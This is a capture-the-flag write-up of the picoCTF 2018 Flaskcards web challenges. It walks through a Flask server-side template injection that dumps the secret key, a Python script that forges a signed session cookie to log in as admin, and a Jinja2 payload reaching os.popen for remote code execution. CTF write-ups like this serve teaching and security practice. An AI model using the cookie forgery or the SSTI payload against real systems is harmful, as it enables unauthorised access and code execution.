 ```yaml
---
layout: post
title: picoCTF'18 - Flaskcards writeup
date: 2018-10-12
---
```


___
## Summary / TL;DR

I played in picoCTF again this year, and I think I performed a lot better than I did last year, especially in web, I wanted to share this writeup because I think I did a good job being the **<u>75th</u>** person (out of like 5000 other players) to solve the final part of this series of web challenges.

1. **Flaskcards** (350 pts)
2. **Flaskcards Skeleton Key** (600 pts)
3. **Flaskcards and Freedom** \[Highest point web challenge] (900 points)  

___
  

# Flaskcards

## Description / Hints / URL

We found [this](http://2018shell1.picoctf.com:51878/){:target="_blank"} fishy website for flashcards that we think may be sending secrets. Could you take a look? 

```
- Are there any common vulnerabilities with the backend of the website?
- Is there anywhere that filtering doesn't get applied?
- The database gets reverted every 2 hours so your session might end unexpectedly. Just make another user
```

## Thought Process

Based on CTF playing experience, the challenge and flavourtext always gives hints about the vulnerability or at least a starting point. In this case `Flask` is a dead giveaway that it has something to do with the Flask webserver.

After registering and logging in, we are shown a navbar that gives us a bit more hinting. 
![navbar](https://vgy.me/YUkEMJ.png)

**Ccreate Cards** -- Allows users to enter input and save it  
**List Cards** -- Shows the saved input that was entered beforehand  
**Admin** -- Not important for this challenge, used in further challenge 

As an example:  
![list-create](https://vgy.me/HlN6i5.png)

Some experienced CTF players may know straight away what to do at this point, if not then well this is a sign of user input being reflected, which could be a few things, notably _Cross Site Scripting_ (XSS) or _Server-Side Template Injection_ (SSTI)

## Exploitation

First thing I tried was XSS because why not ?  
![xss-attempt](https://vgy.me/85lTVv.png)
Unfortunately the payloads were being escaped so by rule of elimination the other thing left to try was **SSTI** ! 

Not going to go into how **SSTI** works but essentially your input gets evaluated and the result is returned, not good for keeping secrets ... 

Here is an example probing payload:  
![4times4](https://vgy.me/2lWc1L.png)
 
## Flag 
{% raw %}
The flag is most likely stored in the `SECRET_KEY` variable maintained internally by Flask, so we can use `{{ config }}` to dump out all the variables:  
![configz](https://vgy.me/bLucDr.png)
{% endraw %}

<div class="divider"></div>
# Flaskcards Skeleton Keys

## Description / Hints / URL
Nice! You found out they were sending the Secret_key: a155eb4e1743baef085ff6ecfed943f2. Now, can you find a way to log in as admin? http://2018shell1.picoctf.com:53588 .

```
- What can you do with a flask Secret_Key?
- The database still reverts every 2 hours
```
## Thought Process
This one took me awhile because I wasn't sure what I was doing wrong, but actually the answer is very staright forward ! The key is given to us: `a155eb4e1743baef085ff6ecfed943f2`.

We first grab the existing _non-admin_ session cookie off the site which is something like this:
```
.eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw
```
It goes without saying that when we visit the `/admin` page we don't get the flag, at least not yet ... 

 We know that secrets are usually used to sign cookies and a quick search on the interwebz gives us a nice and easy [program](https://gist.github.com/babldev/502364a3f7c9bafaa6db) to decrypt and encrypt our own cookies using the key :)

## Exploitation 
After some slight modification and experimenting the (cleaned-up) version of the script I used was:
```python 
#!/usr/bin/python

import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer
salt = 'cookie-session'
serializer = TaggedJSONSerializer()

secret_key = "a155eb4e1743baef085ff6ecfed943f2"
cookie_str = ".eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw"

signer_kwargs = {
    'key_derivation': 'hmac',
    'digest_method': hashlib.sha1
}

s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

print "=== User u ==="
print s.loads(cookie_str)
print ''

manipulate = s.loads(cookie_str)
manipulate['user_id'] = '1'.decode('utf-8')

print "=== MANIPULATED ==="
print manipulate
print ''
print s.dumps(manipulate)
print "======================="
```

The decrypted cookie had a user_id value which would determine whose session you logged in as, I kept failing because I was going after user_id **0** which is usually the admin, but I guess sometimes 1 is worth a try as well  

The manipulated cookie was:
```
.eJwlj0FqBDEMBP_i8x4kWZKl_cxiWTIJgQRmdk8hf8-EXPpQUFD93R77qPOt3Z_Hq27t8Z7t3mrxCJqYqPa3q1ZWgW_hQUEgOFzTwiHKpdtaHhp7StSojaNjRnAo46bUFDe4WAdSJ_etZQull9EwZCfo3G0KsE1WAJ_t1tZ57Mfz66M-rx6jHqGywzzLuGxPcNZII5Stk4QtcvbLe511_J_A9vMLlu8-QQ.DqETSg.MoGOf2Esi4EScYNpa8Y_hOikdbQ
```

By copying this value into the clipboard and repasting into a cookie editor, we can now visit the `/admin` page to get the flag ~ 

Note:  The cookie should **NOT** have a trailing newline, as this causes the cookie to not be parsed properly !     

## Flag 
![flag2](https://vgy.me/hX4nrZ.png)

<div class="divider"></div>
# Flaskcards and Freedom

## Description / Hints / URL
There seem to be a few more files stored on the flash card server but we can't login. Can you? http://2018shell1.picoctf.com:52168

```
- There's more to the original vulnerability than meets the eye.
- Can you leverage the injection technique to get remote code execution?
- Sorry, but the database still reverts every 2 hours.
```

## Thought Process
Again, the title gives us a hint of what to do ... __Freedom__ relates to sandbox escaping, or in this case we just need to get _Remote Code Execution_ (RCE) somehow, in the 2nd challenge the templating bug was patched but is reintroduced again in this challenge. Therefore we know that this is a chance to do more **SSTI** stuff ! 


I'm really glad I took extended WebApps because I learnt how to do exactly this type of challenge, to learn how I constructed the payload, these two pages [(1)](https://0day.work/bsidessf-ctf-2017-web-writeups/#zumbo3){:target="_blank"} [(2)](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html){:target="_blank"} may help out ...

## Exploitation

After much experimentation and failure, the final crafted payload I managed to get working was this:
{% raw %}
```python
{{[].__class__.__base__.__subclasses__()[111].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat flag").read()') }}
```
{% endraw %}

## Flag 
After submitting this to **Create Card** our commands would be reflected back to us, it was as simple as doing `ls` followed by `cat flag` to obtain the flag !   
![image](https://vgy.me/LLFMGS.png)


